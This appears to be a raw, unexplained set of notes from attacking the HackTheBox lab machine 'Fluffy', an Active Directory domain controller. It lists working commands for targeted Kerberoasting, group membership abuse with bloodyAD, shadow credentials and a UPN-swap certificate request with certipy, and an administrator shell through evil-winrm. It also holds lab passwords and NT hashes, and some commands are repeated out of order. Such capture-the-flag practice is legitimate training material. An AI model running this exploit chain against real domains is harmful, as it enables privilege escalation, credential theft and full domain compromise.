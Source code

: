 P.AGILA : prometheusx-303


python3 targetedKerberoast.py --dc-ip 10.10.11.69 -u 'p.agila' -p 'prometheusx-303' -d fluffy.htb --request-user winrm_svc

net rpc group addmem "Service Accounts" p.agila -U fluffy.htb/p.agila%'prometheusx-303' -S 10.10.11.69 

certipy-ad shadow auto -username P.AGILA@fluffy.htb -password 'prometheusx-303' -account WINRM_SVC 

bloodyAD.py --host $IP -d fluffy.htb -u p.agila -p 'prometheusx-303' add groupMember 'Service Accounts' p.agila

33bd09dcd697600edf6b3a7af4875767

sudo ntpdate -i 10.10.11.69

de pentesting sur Kerberos avec PKINIT (Public Key Cryptography for Initial Authentication in Kerberos).


ca0f4f9e9eb8a092addf53bb03fc98c8



bloodyAD --host 10.10.11.69 -d fluffy.htb -u p.agila -p 'prometheusx-303' add groupMember 'Service Accounts' p.agila

certipy shadow auto -username P.AGILA@fluffy.htb -password 'prometheusx-303' -account ca_svc

export KRB5CCNAME=ca_svc.ccache

certipy account -u 'ca_svc' -hashes ':ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip 10.10.11.69 -user 'ca_svc' read

certipy account -u 'ca_svc' -hashes ':ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip 10.10.11.69 -upn 'administrator' -user 'ca_svc' update

certipy req -u 'ca_svc' -hashes ':ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip 10.10.11.69 -target 'DC01.fluffy.htb' -ca 'fluffy-DC01-CA' -template 'User'

certipy account -u 'ca_svc' -hashes ':ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip 10.10.11.69 -upn 'ca_svc@fluffy.htb' -user 'ca_svc' update

certipy auth -pfx administrator.pfx -username 'administrator' -domain 'fluffy.htb' -dc-ip 10.10.11.69

evil-winrm -i 10.10.11.69 -u administrator -H 'hash'



 certipy req -u 'ca_svc' -hashes ':ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip 10.10.11.69 -target 'DC01.fluffy.htb' -ca 'fluffy-DC01-CA' -template 'User'



